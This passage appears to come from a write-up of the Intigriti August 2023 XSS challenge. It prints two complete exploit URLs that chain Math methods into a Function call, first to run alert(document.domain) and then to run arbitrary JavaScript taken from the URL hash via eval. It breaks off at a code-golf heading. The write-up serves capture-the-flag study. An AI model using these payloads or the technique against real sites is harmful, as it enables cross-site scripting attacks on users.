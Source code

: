 Exploit URL: https://challenge-0823.intigriti.io/challenge/index.html?q=Math.seeds.pop,Math.seeds.pop,Math.seeds.pop,Math.seeds.pop,Math.seeds.pop,Math.abs.name.at,Math.seeds.push,Math.clz32.name.at,Math.seeds.push,Math.LN2.valueOf,Math.exp.name.at,Math.seeds.push,Math.LN2.valueOf,Math.round.name.at,Math.seeds.push,Math.hypot.name.at,Math.seeds.push,Math.clz32,Math.cosh,Math.log2,Math.floor,Math.abs.name.constructor.fromCharCode,Math.seeds.push,Math.cosh,Math.log,Math.cosh,Math.floor,Math.abs.name.constructor.fromCharCode,Math.seeds.push,Math.LOG2E.valueOf,Math.cos.name.at,Math.seeds.push,Math.LN2.valueOf,Math.cos.name.at,Math.seeds.push,Math.E.valueOf,Math.imul.name.at,Math.seeds.push,Math.LN2.valueOf,Math.max.name.at,Math.seeds.push,Math.LN2.valueOf,Math.exp.name.at,Math.seeds.push,Math.E.valueOf,Math.min.name.at,Math.seeds.push,Math.LN2.valueOf,Math.tan.name.at,Math.seeds.push,Math.log2,Math.exp,Math.ceil,Math.abs.name.constructor.fromCharCode,Math.seeds.push,Math.clz32,Math.sqrt,Math.cosh,Math.ceil,Math.abs.name.constructor.fromCharCode,Math.seeds.push,Math.LOG2E.valueOf,Math.cos.name.at,Math.seeds.push,Math.LN2.valueOf,Math.max.name.at,Math.seeds.push,Math.LN2.valueOf,Math.abs.name.at,Math.seeds.push,Math.LN2.valueOf,Math.imul.name.at,Math.seeds.push,Math.E.valueOf,Math.min.name.at,Math.seeds.push,Math.acosh,Math.expm1,Math.ceil,Math.abs.name.constructor.fromCharCode,Math.seeds.push,Math.cos,Math.clz32,Math.abs.name.constructor.fromCharCode,Math.abs.name.constructor.prototype.trim.call,Math.seeds.join,Math.abs.constructor,Math.abs.constructor.prototype.call.call

## Arbitrary XSS

The above code merely executes the static `alert(document.domain)` command. Is it possible to execute arbitrary JavaScript code?

As long as a short enough payload can be found, it seems feasible.

For instance, `eval(location.hash.slice(1))` is relatively short, but still a bit long. If you use the script I provided above, it might hang for a while due to some bugs in my code. Ultimately, it generates a result of length 120, which exceeds the 100-character limit.

However, another payload like `eval("'"+location)` works fine and has a length of 85.

https://challenge-0823.intigriti.io/challenge/index.html?q=Math.seeds.pop,Math.seeds.pop,Math.seeds.pop,Math.seeds.pop,Math.seeds.pop,Math.exp.name.at,Math.seeds.push,Math.tan,Math.sinh,Math.sinh,Math.expm1,Math.ceil,Math.abs.name.constructor.fromCharCode,Math.seeds.push,Math.atan.name.at,Math.seeds.push,Math.ceil.name.at,Math.seeds.push,Math.clz32,Math.cosh,Math.log2,Math.floor,Math.abs.name.constructor.fromCharCode,Math.seeds.push,Math.cosh,Math.cbrt,Math.cosh,Math.ceil,Math.abs.name.constructor.fromCharCode,Math.seeds.push,Math.exp,Math.tan,Math.expm1,Math.ceil,Math.abs.name.constructor.fromCharCode,Math.seeds.push,Math.expm1,Math.sqrt,Math.ceil,Math.abs.name.constructor.fromCharCode,Math.seeds.push,Math.cbrt,Math.cosh,Math.expm1,Math.ceil,Math.abs.name.constructor.fromCharCode,Math.seeds.push,Math.LN2.valueOf,Math.log.name.at,Math.seeds.push,Math.LOG2E.valueOf,Math.cos.name.at,Math.seeds.push,Math.LN2.valueOf,Math.cos.name.at,Math.seeds.push,Math.LN2.valueOf,Math.abs.name.at,Math.seeds.push,Math.LN2.valueOf,Math.tan.name.at,Math.seeds.push,Math.LN2.valueOf,Math.imul.name.at,Math.seeds.push,Math.LOG2E.valueOf,Math.cos.name.at,Math.seeds.push,Math.E.valueOf,Math.min.name.at,Math.seeds.push,Math.atan,Math.sinh,Math.cosh,Math.cosh,Math.ceil,Math.abs.name.constructor.fromCharCode,Math.seeds.push,Math.cos,Math.clz32,Math.abs.name.constructor.fromCharCode,Math.abs.name.constructor.prototype.trim.call,Math.seeds.join,Math.abs.constructor,Math.abs.constructor.prototype.call.call#';alert(document.domain+'/arb-xss')

Once the ability to execute arbitrary code is achieved, the next step is to strive to identify the shortest possible set of operations.

## Code golf time

### Shortest XSS payload
